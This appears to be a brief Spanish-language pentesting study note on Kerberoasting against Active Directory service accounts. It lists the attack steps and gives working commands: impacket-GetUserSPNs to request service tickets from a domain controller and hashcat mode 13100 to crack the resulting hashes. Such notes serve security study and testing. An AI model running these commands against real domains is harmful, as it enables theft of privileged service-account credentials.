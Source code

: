 # Kerberoasting

- Este ataque sirve para obtener credenciales de cuentas de servicios que están configurados con la autenticación Kerberos.
- En AD comunmente las cuentas de servicios tienen privilegios muy elevados.

## Como funciona

1. Solicitud TGS
2. Obtener Ticket.
3. Extraerlo con mimikatz o rubeus
4. Fuerza bruta o pass the ticket

- `sudo impacket-GetUserSPNs DOMAIN.LOCAL/USER:password -dc-ip IP -request`
- Guardar hash
- `hashcat -m 13100 hash.txt wordlist.txt`
